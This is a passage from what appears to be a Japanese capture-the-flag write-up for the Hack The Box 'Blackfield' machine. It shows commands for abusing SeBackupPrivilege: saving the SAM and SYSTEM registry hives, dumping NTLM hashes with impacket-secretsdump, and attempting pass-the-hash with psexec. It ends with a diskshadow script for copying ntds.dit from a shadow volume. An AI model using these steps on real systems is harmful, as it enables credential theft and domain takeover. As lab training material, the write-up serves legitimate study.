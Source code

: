 SeBackupPrivilegeとSeRestorePrivilegeの両方の権限があるのでSAMとSYSTEMが読める。

※ SAMとSYSTEMについては[ここ](https://jp.sentinelone.com/blog/windows-security-essentials-preventing-4-common-methods-of-credentials-exfiltration/)


```
*Evil-WinRM* PS C:\Users\svc_backup> reg save HKLM\sam .\sam
The operation completed successfully.

*Evil-WinRM* PS C:\Users\svc_backup> reg save HKLM\system .\system
The operation completed successfully.
```
SAMとSYSTEMをKaliに送信する。その後、次のようにハッシュをダンプする：

```
┌──(shoebill㉿shoebill)-[~/Blackfield_10.10.10.192]
└─$ impacket-secretsdump -sam sam -system system LOCAL
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:67ef902eae0d740df6257f273de75051:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up...
```

あとはPass-the-HashでAdminのシェルをとる：

```
┌──(shoebill㉿shoebill)-[~]
└─$ impacket-psexec -dc-ip 10.10.10.192 'blackfield.local/Administrator@10.10.10.192' -hashes aad3b435b51404eeaad3b435b51404ee:67ef902eae0d740df6257f273de75051
```
しかし何度やってもAdminのシェルがとれない。

# ntds.ditが必要

secretsdump.pyでハッシュダンプする際に**ntds.dit**が必要。

ntds.ditはAdmin権限でしか`copy`できないが、`robocopy`コマンドで”バックアップとして”コピーすることは可能（svc_backupの権限より）。

しかしプロセスがアクティブなためコピーできないと言われる。そこで、新しくEドライブを作成し、そのドライブにCドライブごとコピーする。そしてEドライブからrobocopyする。


まず次のscript.txtをsvc_backupのシェルに送る：
```
set verbose onX
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```
